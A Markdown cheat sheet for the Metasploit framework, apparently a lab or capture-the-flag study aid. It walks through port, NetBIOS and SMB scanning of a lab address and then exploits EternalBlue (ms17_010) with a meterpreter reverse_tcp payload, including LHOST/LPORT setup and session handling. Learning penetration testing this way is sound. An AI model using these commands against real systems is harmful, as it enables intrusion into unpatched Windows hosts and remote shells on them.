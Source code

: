 # 🚀 Metasploit Cheat Sheet

## 🔎 Scanning & Enumeration

### Search Modules

```bash
search portscan
search netbios
search smb
```

### TCP Port Scanner

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.10.40.235
run
```

### NetBIOS Name Scanner

```bash
use auxiliary/scanner/netbios/nbname
set RHOSTS 10.10.40.235
run
```

### Enumerate SMB Users

```bash
use auxiliary/scanner/smb/smb_enumusers
set RHOSTS 10.10.40.235
run
```

## 💥 Exploitation

### Search Exploit

```bash
search ms17_010
```

### Use EternalBlue Exploit

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

### Show Compatible Payloads

```bash
show payloads
```

### Select Payload

```bash
set payload windows/x64/meterpreter/reverse_tcp
```

### Configure Payload Options

```bash
set LHOST <your IP>
set LPORT 4444
```

### Run Exploit

```bash
exploit
```

## 🖥 Session Management

### List Active Sessions

```bash
sessions
```

### Interact with a Session

```bash
sessions -i 1
```

### Background a Session

```bash
CTRL+Z  # Then confirm with y
```

### Close Session

```bash
sessions -k 1
```

## 📝 Notes

- ✅ Always run `show options` after setting modules to verify required parameters.
- ✅ Use `info <module>` to see detailed descriptions, targets, references, and usage notes.
- ✅ For persistent shells, prefer `meterpreter` payloads.
- ✅ Example common payloads:
    - `windows/meterpreter/reverse_tcp`
    - `generic/shell_reverse_tcp`